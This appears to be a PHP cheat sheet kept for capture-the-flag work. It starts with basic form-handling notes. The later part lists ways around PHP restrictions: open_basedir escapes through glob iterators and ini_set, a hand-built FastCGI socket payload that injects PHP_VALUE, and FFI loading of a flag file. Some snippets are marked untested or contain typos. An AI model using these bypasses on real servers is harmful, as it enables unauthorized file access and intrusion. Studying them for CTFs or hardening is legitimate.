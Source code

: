 # PHP Commands
* All of inputs in the form tag inside HTML are submitted as a dictionary with name as the dictionary key

* Check if a form has been submitted via `POST` method
```php
if (isset($_POST['submit'])){ // submitted }
```

* Get the value of a variable in the submitted form
```php
$_POST['VARIABLE']
```

* Similar syntax applies to the `GET` method, however, the `GET` variables will now be visible inside URL and added inside, separated with `&`

* `REQUEST` basically is a black box that you can use either `POST` or `GET`, and it cab have the effect of either

* To require a `PHP` file inside `HTML`
```php
<?php require_once 'index.php' ?>
```

* `${}` is the value of the referenced variable.
```php
$name = "Cat";          // name => "Cat";
${$name} = "Dog";       // name => "Cat"; $Cat => "Dog";
${${$name}} = "Monkey"; // name => "Cat"; $Cat => "Dog"; $Dog => "Monkey";
```

* Shows a file content
```php
highlight_file("index.php");
```

* Bypass `open_basedir` via glob wrapper, this leads to directory listing of `/`, root directory
```php
foreach(new DirectoryIterator("glob:///*") as $f) echo "$f\n";
foreach(new DirectoryIterator("glob:///tm?/*") as $f) echo "$f\n"; // getting file listing under /tmp/
foreach(new GlobIterator("/*") as $f) echo "$f\n";
```

* Bypass `open_basedir` by changing the `open_basedir` with `ini_set`, IF THIS IS NOT DISABLED
```php
ini.set('open_basedir', '..');
chdir(".."); chdir(".."); chdir("..");
ini.set('open_basedir', '/');
```

* Trying to bypass `disabled_functions` and `open_basedir` using `fpm`, still testing
```
$params = array(); $params['SCRIPT_NAME'] = $_SERVER['SCRIPT_NAME']; $params['SCRIPT_FILENAME'] = $_SERVER['SCRIPT_FILENAME']; $params['REQUEST_METHOD'] = 'GET'; $params['QUERY_STRING'] = 'stop=true'; $params['PHP_VALUE'] = 'open_basedir=/'; $params_encoded = ''; print_r($params); foreach ($params as $k=>$v) { $params_encoded.= chr(strlen($k)).chr(strlen($v)).$k.$v; } $len = strlen($params_encoded); $len_encoded = chr($len >> 8).chr($len & 255);
$fp = fsockopen('127.0.0.1',19260); fwrite($fp, "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00"); fwrite($fp, "\x01\x04\x00\x01".$len_encoded."\x00\x00".$params_encoded); fwrite($fp, "\x01\x04\x00\x01\x00\x00\x00\x00"); fwrite($fp, "\x01\x05\x00\x01\x00\x00\x00\x00"); sleep(2); $result = ''; while (!feof($fp)) { $result .= fread($fp, 1024); } fclose($fp); $matches = array(); preg_match('/START.*END/s', $result, $matches); echo $matches[0];
```

* Load a file with FFI
```php
$ffi = FFI::load('/flag.h');
$a = $ffi->flag_fUn3t1on_fFi();
var_dump(FFI::string($a));
```
